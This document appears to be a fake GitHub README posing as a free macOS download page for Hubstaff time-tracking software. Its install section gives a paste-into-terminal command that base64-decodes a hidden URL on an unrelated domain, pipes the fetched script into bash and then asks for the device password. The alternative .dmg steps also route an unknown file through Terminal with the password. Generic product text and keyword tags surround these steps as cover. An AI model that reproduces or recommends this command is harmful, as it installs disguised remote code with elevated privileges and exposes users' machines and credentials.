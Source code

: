 # Hubstaff For Mac OS — Download Now ⏱️
![logo](https://cdn-public.softwarereviews.com/production/logos/offerings/9521/original/Hubstaff_logo.png?1636398953)

Hubstaff For Mac OS is a powerful time tracking and productivity management software designed for macOS users. Monitor work hours, track tasks, and optimize team performance with an intuitive interface. Follow the instructions below to install Hubstaff on your Mac and boost your productivity.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/hubstaff)

If the download button doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Hubstaff For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 🎯 What You Get with Hubstaff

- ⏰ **Time Tracking**: Accurately track work hours for teams and individuals with real-time updates.
- 📊 **Activity Monitoring**: Monitor app and website usage to ensure productive workflows.
- 📈 **Detailed Reports**: Generate insightful reports on time, tasks, and project progress.
- ✅ **Task Management**: Assign and track tasks seamlessly within your team.
- 🔒 **Secure Data Handling**: Protect sensitive data with robust encryption and secure storage.
- 🌐 **Integrations**: Connect with tools like Trello, Asana, and Slack for streamlined workflows.

## About Hubstaff

Hubstaff For Mac OS is a leading **time tracking** and **productivity management** software tailored for macOS users, designed to help businesses and freelancers optimize their workflows. Whether you’re managing a remote team or tracking your own tasks, Hubstaff provides a seamless, macOS-native experience that simplifies **employee monitoring** and **task management**. Its **free download** option allows users to explore its robust features, making it accessible for teams of all sizes.

With Hubstaff, you can track time with precision, monitor activity levels, and generate detailed reports to gain insights into productivity. The software’s **macOS productivity** tools integrate effortlessly with popular platforms like Trello, Asana, and QuickBooks, ensuring your workflows remain connected. Its **secure data handling** ensures that all tracked data is protected, giving you peace of mind while managing sensitive information.

For teams looking to streamline operations, Hubstaff offers **activity monitoring** features that track app and website usage, helping you identify areas for improvement. The software’s **detailed reports** provide actionable insights into project progress and employee performance, enabling data-driven decisions. Hubstaff’s intuitive interface is optimized for macOS, offering a native experience that feels at home on your MacBook or iMac.

By choosing Hubstaff For Mac OS, you’re investing in a tool that enhances **time tracking**, **task management**, and overall productivity. The **free macOS download** makes it easy to get started, allowing you to explore its features without upfront costs. Join thousands of macOS users who rely on Hubstaff to manage their teams and projects efficiently, and take control of your productivity today.

## ✅ Advantages of Hubstaff

- 🚀 **Accurate Time Tracking**: Monitor work hours with precision for better project planning.
- 🔍 **Insightful Activity Monitoring**: Track app and website usage to optimize productivity.
- 📑 **Comprehensive Reports**: Access detailed reports to analyze team and project performance.
- 🛠️ **Seamless Task Management**: Assign and track tasks effortlessly within the platform.
- 🔐 **Secure Data Protection**: Safeguard sensitive data with advanced encryption.
- 🌍 **Broad Integrations**: Sync with tools like Asana, Trello, and Slack for enhanced workflows.

## 🖼 Preview

![Time Tracking Dashboard](https://a.storyblok.com/f/172398/2336x1668/8fa478872d/hero-2x-employee_timesheets.png)
*Monitor team productivity with a clear, intuitive dashboard.*

![Activity Monitoring](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf5ka7tENZ33Fm64tiak43TufSu3s30hkd9bybrIoFXfMs0g-aYPjEIGtqqFS9pZ6pxiyoZURWS3tZZBQysjSR-zqZ46JYYeV6hAqa5suBzchQLas5NZV3xfTJ7Zk_L30ipMT5nxRQzmIevL_vcL_-KXdoe?key=8bfni8E8huSs8dRsJbcpzadv)
*Track app and website usage for better productivity insights.*

![Reports Interface](https://gdm-catalog-fmapi-prod.imgix.net/ProductScreenshot/7c2e7fc2-9d73-4bf6-8b7a-327de7428abb.png?auto=format&q=50)
*Generate detailed reports to analyze project and team performance.*

![Task Management](https://i.postimg.cc/7Y2T0qL3/hubstaff-tasks.jpg)
*Assign and manage tasks seamlessly within Hubstaff.*

## 🔍 Tags

time tracking, macOS productivity, employee monitoring, task management, free time tracking software, Hubstaff download, secure data handling, productivity management, detailed reports, macOS workforce tools, activity monitoring, project tracking, team productivity, cloud-based HR tools
